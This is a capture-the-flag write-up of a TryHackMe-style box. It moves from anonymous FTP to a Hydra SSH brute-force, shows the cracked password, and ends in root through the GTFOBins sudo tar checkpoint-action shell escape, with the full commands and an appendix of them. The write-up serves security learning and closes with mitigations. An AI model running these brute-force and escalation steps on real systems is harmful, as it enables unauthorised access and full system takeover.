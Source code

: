 # CTF Writeup — FTP to Root via SUID `tar` (TryHackMe style)

> Short summary  
> Gained initial access via anonymous FTP which contained a username hint and a wordlist. Performed a password guess (Hydra) against SSH for `lin`, obtained a user shell and `user.txt`. Ran linPEAS to enumerate privilege escalation vectors and discovered `tar` with SUID. Used a known GTFObins sudo `tar` abuse to spawn a root shell and read `root.txt`.

---

## Target
- IP: `10.10.169.105`
- Scan date (local notes): 2025-09-12

---

## 1 — Recon / Port scan

Command:
```bash
nmap -sS 10.10.169.105
```

Key output:
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Notes: FTP, SSH and HTTP were open. Proceeded to check FTP first since anonymous logins are often enabled on CTF boxes.

---

## 2 — FTP enumeration

Connected as anonymous:
```
ftp> open 10.10.169.105
220 (vsFTPd 3.0.5)
Name (10.10.169.105:root): anonymous
230 Login successful.
ftp> ls
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Downloaded and viewed files.

`task.txt`:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
- Observations: signed by `lin` — likely a username on the host.

`locks.txt`:
- Contained a list of words (used as a potential password list / dictionary).

Conclusion: `lin` is a likely user. `locks.txt` looks like a suitable wordlist for password guessing.

---

## 3 — SSH brute-force (password-guess)

Used Hydra with the `locks.txt` dictionary:
```bash
hydra -l lin -P locks.txt ssh://10.10.169.105
```

Hydra result:
```
[22][ssh] host: 10.10.169.105   login: lin   password: RedDr4gonSynd1cat3
```

Logged in via SSH:
```bash
ssh lin@10.10.169.105
# cat ~/Desktop/user.txt
THM{%flag removed%}
```

Obtained `user.txt` — user-level compromise achieved.

---

## 4 — Privilege escalation enumeration

Goal: escalate to root and read `/root/root.txt`.

Transferred linPEAS and ran it:
```bash
scp linpeas.sh lin@10.10.169.105:/tmp/
# on target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Important linPEAS finding: `/bin/tar` is present and has SUID or is usable via `sudo` (linPEAS indicated a sudo rule or SUID bit relevant to `tar`).

Searched GTFObins for `tar` and found techniques allowing shell execution when `tar` is run with specific options / via sudo.

---

## 5 — Privilege escalation — abusing `tar` via sudo

Observed that `tar` can be invoked through sudo. The following command was used to spawn a shell as root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Explanation:
- `--checkpoint=1` and `--checkpoint-action=exec=/bin/sh` cause `tar` to run `/bin/sh` as the checkpoint action.
- When run under `sudo` (and tar is allowed via sudo), this results in an interactive shell as root.

After running the command:
```
# whoami
root
```

---

## 6 — Root flag

With a root shell:
```bash
cat /root/root.txt
THM{%Flag Removed%}
```

Root flag obtained.

---

## 7 — Post-exploit notes & cleanup
- On real systems, avoid leaving tools or credentials. For CTFs, be mindful of artifacts.
- Files transferred (e.g., `linpeas.sh`) should be removed after use if appropriate:
  ```bash
  rm /tmp/linpeas.sh
  ```

---

## 8 — Mitigation & recommendations

1. **Avoid password reuse / weak/default passwords**  
   - The box used a guessable/weak password found in an exposed file. On production systems, never store passwords in plaintext files accessible via anonymous services. Enforce strong passwords and MFA where possible.

2. **Harden FTP / remove anonymous access**  
   - Disable anonymous FTP or restrict the served directories. Use secure file transfer services (SFTP/FTPS) instead.

3. **Least privilege for sudo**  
   - Review `/etc/sudoers` and sudoers.d to ensure users are not allowed to run arbitrary programs that can be abused to escalate privileges. Avoid allowing programs that accept arbitrary flags that can execute shell commands (or restrict them tightly).

4. **SUID binaries auditing**  
   - Remove unnecessary SUID/SGID bits from binaries. Audit all SUID binaries and validate their purpose. Use automated tools to check for known abuse patterns (e.g., GTFObins entries).

5. **Detect improper command usage**  
   - Monitor for suspicious use of utilities (`tar`, `less`, `vi`, `awk`, etc.) under sudo, and alert on unusual usages.

6. **Secrets management**  
   - Do not commit or expose secrets via services (FTP, web directories). Use secret managers for production credentials.

---

## 9 — References
- linPEAS — Privilege escalation auditing script (PEASS-ng).  
- GTFObins — collection of Unix binaries that can be abused to escalate privileges: https://gtfobins.github.io/gtfobins/tar/#sudo

---

## 10 — Appendix: commands used (extracted from notes)

```bash
# Recon
nmap -sS 10.10.169.105

# FTP
ftp 10.10.169.105
# login: anonymous
# download locks.txt, task.txt

# SSH brute force
hydra -l lin -P locks.txt ssh://10.10.169.105

# SSH to user
ssh lin@10.10.169.105
cat ~/Desktop/user.txt

# Transfer linPEAS
scp linpeas.sh lin@10.10.169.105:/tmp/
# on target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh

# Privilege escalation (GTFObins technique)
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# Root actions
whoami
cat /root/root.txt
```
